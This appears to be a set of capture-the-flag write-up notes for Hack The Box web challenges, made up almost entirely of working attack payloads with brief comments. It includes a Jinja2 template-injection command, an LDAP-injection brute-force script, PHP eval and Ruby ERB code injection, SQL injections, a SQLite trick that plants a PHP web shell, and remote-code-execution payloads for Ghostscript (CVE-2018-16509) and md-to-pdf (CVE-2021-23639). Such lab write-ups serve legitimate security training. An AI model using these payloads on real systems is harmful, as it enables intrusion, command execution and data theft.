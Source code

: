 # WEB

## Templeted `Flask/Jinja2 Template Injection`
Flask/Jinja2 Template Injection
Payload:
```
http://<ip_address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```

## Phonebook `LDAP Injection`
Bypass login using *:* credentials.

Get reese's password -> flag:
Python script: 
```python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

proxies = {
    'http': 'http://127.0.0.1:8080'
}

flag = "HTB{"
for i in range(50):
    print("[i] Looking for number " + str(i))
    # print(alphabet)
    for char in alphabet:
        pwd = flag + char + '*'
        r = requests.post("http://<ip_address>/login", data={"username":"reese", "password":pwd}, proxies=proxies)
        if ("'Content-Length': '2586'" in str(r.headers)):
            flag += char
            print("[+] Flag: " + flag)
            break
```



## LoveTok `Code Injection [PHP eval()]`
```
# Get flag file name
http://<ip_address>/?format=${system($_GET[1])}&1=ls

# Get flag
http://<ip_address>/?format=${system($_GET[1])}&1=cat+flageXXXX
```


## Toxic `Insecure Deserialization` & `Log Poisoning Attack`
### `TODO`



## petpetrcb `CVE-2018-16509`
Ghostscript === 9.23 RCE
Payload:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```


Payload for this challenge:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

## Under Construction `JWT Algorithm Confusion` & `SQL Injection`
JWT Algorithm Confusion -> https://portswigger.net/web-security/jwt/algorithm-confusion

Next SQL Injection (SQLite3)
```sql
# Get Tables
user_in_database' union select name,NULL from sqlite_master where type='table' and name not like 'sqlite_%';-- 

# Get Columns
user_in_database' union select sql,NULL from sqlite_master where tbl_name = 'users' and type = 'table';--

# Get Flag
user_in_database' and 1=2 UNION SELECT *,NULL from flag_storage;--
```


## Blinker Fluids `CVE-2021-23639`
md-to-pdf < 5.0.0 RCE
Payload:
```
const { mdToPdf } = require('md-to-pdf'); var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';
```
Payload for this challenge:
```
# In request:
"---js\n((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))\n---RCE;"

# In PDF editor on site:
---js
  ((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))
---RCE;

```

## Intergalactic POST `SQL Injection with RCE [SQLite3]`
If given arguments arent't properly validated:
```php
$this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
```
We can add `X-Forwarded-For` header and it's value will be passed to `$ip_address`
```sql
X-Forwarded-For: a','a');ATTACH DATABASE '/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```
Next arguments can be given through URL:
```url
http://104.248.173.13:32130/lol10.php?cmd=cat%20../flag_d055c3346bc2c02.txt
```

## Neofy `Regex Bypass with new line` && `Code Injection`
Regex that should protect against Code Injection:
```ruby
params[:neon] =~ /^[0-9a-z ]+$/i
```
In Ruby (but not only) the ^ and $ match at the start and end of each line. So if any (!) one line is matching, we have a successful match. What we would rather want in this case is matching the beginning and end of the string, which is possible with \A and \z.
Thats why this payload works:
```url
# In request POST /
neon=abc%0a<%25%3d+File.open('/app/flag.txt').read+%25>
%0a -> encoded newline
```
